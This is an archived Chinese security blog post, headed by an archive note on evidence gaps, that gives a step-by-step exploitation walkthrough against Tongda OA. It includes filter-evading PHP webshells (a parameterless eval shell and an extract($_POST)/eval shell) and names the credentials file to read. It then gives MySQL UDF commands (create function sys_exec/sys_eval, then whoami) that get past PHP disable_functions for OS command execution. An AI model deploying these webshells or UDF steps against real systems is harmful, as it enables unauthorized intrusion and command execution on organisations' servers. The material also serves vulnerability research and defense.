# 通达OA action_upload后续MySQL UDF案例

## 条目说明

- 对象与具体问题：通达OA；action_upload后续MySQL UDF案例
- 版本、配置及部署条件：OA/PHP/MySQL精确版本缺失；Windows/plugin可写
- 认证与权限前提：已有上传能力及高权限DB凭据
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 不是2026新漏洞；上传原始请求和过滤证据仅截图
- UDF路径应依据plugin_dir与架构，版本5.1至5.1.4描述空档
- PHP代码执行与OS命令执行混称；无UDF/动态库清理说明
- 缺原文URL及最低DB权限说明

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

原创 d0n9x1e  蝉SEC   2026-01-12 09:38  
  
RCE过的朋友都知道，通达OA在传马之后，常常出现disable_function限制我们无法顺利命令执行的问题，今日分享主题：  
  
1，通达OA任意文件上传的绕过方案  
  
2，  
通达OA-RCE无法执行命令的解决  
  
  
  
问题一：  
  
通过扫描，发现该站点存在tongda-oa-action-upload-php-upload，随后，你像疯了一样进行验证，  
发现确实存在  
  
  
  
聪明的你就想传木马了，于是你先传了一个system函数，想执行命令，但是，你发现了一个问题，没办法执行  
  
  
  
  
随后，你从裤裆掏出你的eval函数，单独执行  
  
  
  
  
你发现你的eval函数是可以执行的，你欣喜若狂，就当你上传木马的时候  
  
  
  
现实再次给你当头一棒，无法上传  
  
  
  
你本着遇到问题解决问题的想法，去尝试分析，是什么东西被过滤了，经过你的尝试，你发现了原来是对‘$_POST['x']’格式进行检测  
  
  
  
  
常规的加号无法绕过，这个时候，你想起了你曾经打CTF的时候学习的无参RCE和参数覆盖，随后你制作了如下木马，成功上传；  
  
无参RCE在之前发过相关文章  
```
<?php eval(reset(array_reverse(current(get_defined_vars()))));?>
```  
  
  
  
变量覆盖如下：  
```
<?php 
extract($_POST);
eval($s);
?>
```  
  
  
  
这样我们就绕过了对$_POST['x']格式的检测  
  
使用蚁剑成功连接  
  
  
  
  
  
到这里我们第一个问题解决了，大家有任何疑问可直接评论区留言！  
  
问题二：  
  
连接上之后，我们发现命令无法执行，还是disable_function搞的鬼  
  
这里我们就介绍第二个思路  
  
udf方式绕过disable_function  
  
（1）获取udf.dll文件  
  
直接使用metasploit里面的dll脚本  
  
位置如下：  
```
/usr/share/metasploit-framework/data/exploits/mysql
```  
  
  
  
连接OA的数据库，数据库账号密码地址如下：  
```
E:/MYOA/webroot/inc/oa_config.php
```  
  
  
  
这里注意，无法进行端口转发，但蚁剑有数据库连接功能，这里使用蚁剑进行数据库连接  
  
  
  
下面将我们刚刚的udf进行上传，这里有一点需要注意就是上传位置  
  
如果版本号大于5.1.4 上传udf的位置应该放在 mysql\lib\plugin目录下  
  
如果版本小于5.1 上传udf的位置应该放在c盘的windows或者windows32目录里  
  
  
  
下面进行udf利用  
```
create function sys_exec RETURNS int soname 'mysqludf.dll';
create function sys_eval returns string soname 'mysqludf.dll';
select sys_eval("whoami");
```  
  
  
  
  
  
到这里利用了udf的方式绕过了其对disable_function的限制进行命令执行  
  
欢迎大家一起指点讨论！！！  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
